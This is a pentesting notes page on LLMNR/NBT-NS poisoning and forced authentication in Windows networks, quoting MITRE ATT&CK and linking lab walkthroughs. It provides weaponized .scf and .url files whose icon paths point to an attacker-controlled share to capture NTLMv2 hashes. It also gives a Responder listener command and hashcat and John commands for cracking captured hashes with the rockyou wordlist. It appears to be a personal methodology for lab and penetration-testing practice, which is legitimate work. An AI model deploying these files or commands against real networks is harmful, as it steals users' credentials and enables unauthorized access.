 ```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}

> By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.
>
> Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. [\[1\]](https://en.wikipedia.org/wiki/Link-Local\_Multicast\_Name\_Resolution)[\[2\]](https://technet.microsoft.com/library/cc958811.aspx)
>
> Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords.
>
> In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv1/v2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it.[\[3\]](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)[\[4\]](https://blog.secureideas.com/2018/04/ever-run-a-relay-why-smb-relays-should-be-on-your-mind.html) Additionally, adversaries may encapsulate the NTLMv1/v2 hashes into various protocols, such as LDAP, SMB, MSSQL and HTTP, to expand and use multiple services with the valid NTLM response.&#x20;
>
> Several tools may be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174).

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```
hashcat -m5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```
